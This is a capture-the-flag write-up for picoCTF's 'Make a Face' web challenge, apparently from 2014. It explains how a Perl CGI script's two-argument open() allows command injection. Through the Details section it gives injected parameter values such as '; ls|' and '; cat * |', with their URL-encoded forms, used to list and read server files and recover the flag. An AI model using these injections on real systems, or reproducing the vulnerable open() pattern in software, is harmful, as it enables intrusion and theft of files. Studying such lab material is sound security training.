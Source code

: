 ## Make a Face - 100 (Web Exploitation)
####Writeup by Oksisane
Created: 2014-11-08 15:05:08
Last modified: 2014-11-09 22:28:33

### Problem

It looks like Daedalus is working on a new project to generate digital avatars for use online. After taking a look, at their site: http://makeaface.picoctf.com/ it seems like there is a pretty good chance the project isn't completed, and may have some bugs. This might be the break we've been looking for to get inside their network.

### Hint

Making a face is cool, but making a shell is even better

## Answer


### Overview

Exploit Perl's [open](http://perldoc.perl.org/functions/open.html) command to run shell commands and `cat *` to print the contents of the flag.

### Details
Opening the source of `http://makeaface.picoctf.com/` we can see the perl source used to create the page (reproduced below):
```perl
#!/usr/bin/perl

use CGI;

$q = new CGI;
if (defined($q->param('Head'))) {
  print $q->header(-type=>'image/bmp');
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));

  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
}
```
The `else` part of this code just performs initial page setup, so we can ignore it. Looking closer at the source we can see that the `open` function is called on on the user's selection of face components. To figure out how these are being sent to the script, we go back to the source of http://makeaface.picoctf.com/ where we find `js.js` (partially reproduced below).
```js

function loadImage() {
  var head = document.getElementsByName("Head")[0];
  var hair = document.getElementsByName("Hair")[0];
  var nose = document.getElementsByName("Nose")[0];
  var mouth = document.getElementsByName("Mouth")[0];
  var eyes = document.getElementsByName("Eyes")[0];
  var loading = document.querySelector("video");
  var canvas = document.querySelector("canvas")
  canvas.width = 256;
  canvas.height = 256;
  var context = canvas.getContext('2d');
  var image = new Image();
  image.src = "index.cgi?Head="+head.value+".bmp&Hair="+hair.value+".bmp&Nose="+nose.value+".bmp&Mouth="+mouth.value+".bmp&Eyes="+eyes.value+".bmp";
  loading.play();
  var i = setInterval(draw,20,loading,context);

  setTimeout(function(){clearInterval(i);context.drawImage(image,0,0);},wait);
  wait -= 200;
}
```
This load image function simply makes a request to the server in the format `<selection>.bmp` for each face component. For example, one valid component is `1.bmp`. At this point I am going to switch over to using [Postman](https://chrome.google.com/webstore/detail/postman-rest-client/fdmmgilgnpjigdojojpjoooidkmcomcm?hl=en) a Chrome extension which makes sending requests to a server easy. Once you have postman installed, browse to `chrome://apps` and click on Postman to open it. Fill out the settings as shown below (where the url is `http://makeaface.picoctf.com/index.cgi`):

<img src="makeafacecap1.JPG"/>

Now that we can send POST requests to the server and recieve the responses, we need to figure out how to exploit this. As noted earlier, our input is being passed to the perl `open` function. A little googling [reveals](http://www.cgisecurity.com/lib/sips.html) that this is a big security issue. By appending a `|` to the end of our post request, whatever we send to the server will be executed as a shell command and the result will be sent back inside the image file! Let's try it in Postman (shown below):

<img src="makeafacecap2.JPG"/>

Huh, that didn't work. Let's look back at the Perl line that interprets our input.
```perl
open(HEAD,"head".$q->param('Head'));
```
In our case, the open function would look like `headls |` and the server would try to run the `headls command` instead of the `ls` command. To fix this we add a `;` to the the start of our post request, so that the command executed by the server is `head; ls;`. Our full exploit is now `; ls|`.The postman request now looks like this:
<img src="makeafacecap3.JPG"/>

Weird, that still didn't work. Since we are using special characters such as `|` and `;` we need to [URL Encode](http://www.w3schools.com/tags/ref_urlencode.asp) them. [This Tool](http://meyerweb.com/eric/tools/dencoder/) works well. When we input our string, `;ls |` we get `%3Bls%20%7C`. Also, since the first line of the perl script is
```perl
print $q->header(-type=>'image/bmp');
```
our browser thinks the resulting data is an image, not text. To fix this we simply download the image resulting from our post request (right click - save as) and open the downloaded file in a text editor. Puting all those fixes together, we get this postman request:
<img src="makeafacecap4.JPG"/>

opening it gives us the text
```

head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```
but the file seems a bit malformed (with a bunch of NULLs at the start). Looking back at the perl script we see this line

```perl
print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
```
preforms a binary AND on all of the inputs. To get around this we simply set each input to our exploit instead of just the Head value:
<img src="makeafacecap5.JPG"/>
![alt text](makeafacecap5.JPG)

Which reveals the text

```

SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
css.css
eyes1.bmp
eyes2.bmp
eyes3.bmp
eyes4.bmp
hair0.bmp
hair1.bmp
hair2.bmp
head1.bmp
head2.bmp
head3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp

```

Now let's send another request to read the `SECRET_KEY_2b609783951a8665d8c67d721b52b0f8` file. By using the command `cat *` we can print out the contents of any file in the directory. So we set our command to `; cat * |`, which is `%3B%20cat%20*%7C` urlencoded.
<img src="makeafacecap6.JPG"/>.

Downloading and opening the `bmp` with a text editor reveals the flag!
### Flag
    why_did_we_stop_using_perl_again?

